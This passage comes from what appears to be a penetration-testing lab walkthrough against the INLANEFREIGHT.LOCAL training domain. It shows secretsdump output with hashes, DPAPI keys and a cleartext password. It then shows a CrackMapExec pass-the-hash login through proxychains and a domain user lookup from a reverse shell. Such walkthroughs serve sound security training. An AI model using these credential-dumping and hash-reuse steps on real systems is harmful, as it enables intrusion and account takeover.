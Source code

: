 $MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:cb8a6327fc3dad4ea7c84b88c7542e7c
[*] DefaultPassword 
(Unknown User):Gr8hambino!
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6968d50f5ec2bc41bc207a35f0392b72bb083c22
dpapi_userkey:0xe1e7a8bc8273395552ae8e23529ad8740d82ea92
[*] NL$KM 
 0000   21 0C E6 AC 8B 08 9B 39  97 EA D9 C6 77 DB 10 E6   !......9....w...
 0010   2E B2 53 43 7E B8 06 64  B3 EB 89 B1 DA D1 22 C7   ..SC~..d......".
 0020   11 83 FA 35 DB 57 3E B0  9D 84 59 41 90 18 7A 8D   ...5.W&gt;...YA..z.
 0030   ED C9 1C 26 FF B7 DA 6F  02 C9 2E 18 9D CA 08 2D   ...&amp;...o.......-
NL$KM:210ce6ac8b089b3997ead9c677db10e62eb253437eb80664b3eb89b1dad122c71183fa35db573eb09d84594190187a8dedc91c26ffb7da6f02c92e189dca082d
[*] Cleaning up... 
</code></pre>
<p>We confirm that these credentials work using <code>CrackMapExec</code> and we now have a way back to this system should we lose our reverse shell.</p>
<pre><code class="language-shell-session">[!bash!]$ proxychains crackmapexec smb 172.16.8.20 --local-auth -u administrator -H &lt;redacted&gt;

ProxyChains-3.1 (http://proxychains.sf.net)
[*] Initializing LDAP protocol database
|S-chain|-&lt;&gt;-127.0.0.1:8081-&lt;&gt;&lt;&gt;-172.16.8.20:445-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-127.0.0.1:8081-&lt;&gt;&lt;&gt;-172.16.8.20:445-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-127.0.0.1:8081-&lt;&gt;&lt;&gt;-172.16.8.20:135-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-127.0.0.1:8081-&lt;&gt;&lt;&gt;-172.16.8.20:445-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-127.0.0.1:8081-&lt;&gt;&lt;&gt;-172.16.8.20:445-&lt;&gt;&lt;&gt;-OK
SMB         172.16.8.20     445    ACADEMY-AEN-DEV  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-AEN-DEV) (domain:ACADEMY-AEN-DEV) (signing:False) (SMBv1:False)
|S-chain|-&lt;&gt;-127.0.0.1:8081-&lt;&gt;&lt;&gt;-172.16.8.20:445-&lt;&gt;&lt;&gt;-OK
SMB         172.16.8.20     445    ACADEMY-AEN-DEV  [+] ACADEMY-AEN-DEV\administrator &lt;redacted&gt; (Pwn3d!)
</code></pre>
<p>From the <code>secretsdump</code> output above, we notice a cleartext password, but it's not immediately apparent which user it's for. We could dump LSA again using <code>CrackMapExec</code> and confirm that the password is for the <code>hporter</code> user.</p>
<p>We now have our first set of domain credentials for the INLANEFREIGHT.LOCAL domain, <code>hporter:Gr8hambino!</code>. We can confirm this from our reverse shell on <code>dmz01</code>.</p>
<pre><code class="language-cmd-session">c:\DotNetNuke\Portals\0&gt; net user hporter /dom
net user hporter /dom

The request will be processed at a domain controller for domain INLANEFREIGHT.LOCAL.

User name                    hporter
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never
